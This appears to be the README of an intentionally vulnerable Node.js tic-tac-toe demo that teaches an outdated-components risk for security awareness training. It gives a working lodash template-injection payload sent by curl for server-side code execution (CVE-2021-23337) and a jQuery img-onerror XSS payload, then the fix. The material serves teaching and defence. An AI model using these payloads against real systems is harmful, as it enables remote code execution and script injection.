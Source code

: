 # Awareness-Schulung Video:

https://ai.invideo.io/watch/peIl5dTNYqV

# Tic‑Tac‑Toe Vulnerable Demo

This intentionally vulnerable Node.js app demonstrates **OWASP Top 10 – A06: Vulnerable & Outdated Components**. It uses:

* **lodash 4.17.20** – vulnerable to Command Injection via `_.template` (CVE‑2021‑23337).
* **jQuery 3.4.1** – vulnerable to XSS via DOM manipulation functions (CVE‑2020‑11022).

## Setup

```bash
npm install
npm start
```

Visit http://localhost:3000.

## Exploits

### Remote Code Execution (server side)

```bash
curl -X POST http://localhost:3000/api/message \
  -H "Content-Type: application/json" \
  -d '{ "msg": "<% require(\"fs\").writeFileSync(\"pwned.txt\", \"owned\") %>" }'
```

A file `pwned.txt` will be created in the project root.

### Cross‑Site Scripting (client side)

Set the player name to include:

```html
<img src=x onerror=alert('XSS')>
```

An alert box pops.

## Fix

```bash
npm install lodash@4.17.21 jquery@3.7.1
```

Escape output on server and use `$('#scores').text(player.name)` instead of `html()`.